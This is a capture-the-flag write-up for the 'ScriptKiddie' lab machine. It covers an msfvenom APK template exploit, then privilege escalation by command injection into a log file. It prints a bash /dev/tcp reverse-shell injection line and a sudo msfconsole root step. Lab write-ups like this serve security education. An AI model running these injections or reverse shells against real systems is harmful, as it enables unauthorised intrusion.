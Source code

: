 # ScriptKiddie

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### Hacker Tools

Port 5000 presented a website where we could use tools like `nmap` and `msfvenom`:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

We can try it out and it works:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I tested all forms of command injection, but nothing worked. So, I started checking whether the tools themselves had exploits, and I was surprised to see that `msfvenom` was exploitable:

{% embed url="https://www.exploit-db.com/exploits/49491" %}

We just need to replace the payload in the PoC to a reverse shell and generate the APK file:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can upload this as a template file on the machine and change the LHOST to our IP address:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Then we would get a shell:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Pwn

There was another user named `pwn` on the machine, so that's probably the next path. Within the home directory of `pwn`, we can see two other files:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

The `bash` script was running some kind of logger that reads input from `/home/kid/logs/hackers` and executes commands based on it. Take note that we have control over this file.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, we can see how the `${ip}` variable is not being sanitised and is run with `sh -c`, so this is our RCE point. Some testing revealed that the format of the log written is `[2021-05-28 12:37:32.655374] 10.10.16.9`. We can append a reverse shell to the end:

{% code overflow="wrap" %}
```
[2021-05-28 12:37:32.655374] 10.10.16.9 | bash -c 'bash -i >& /dev/tcp/10.10.16.9/8080 0>&1' #" > /home/kid/logs/hackers
```
{% endcode %}

After echoing it in, we would gain anoter reverse shell:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Sudo MSFConsole

When checking `sudo` privileges, we see that we can run `msfconsole` as root.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

The thing about `msfconsole` is that we can run shell commands in it. In short, we have root privileges just by doing `sudo msfconsole`:

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Rooted!
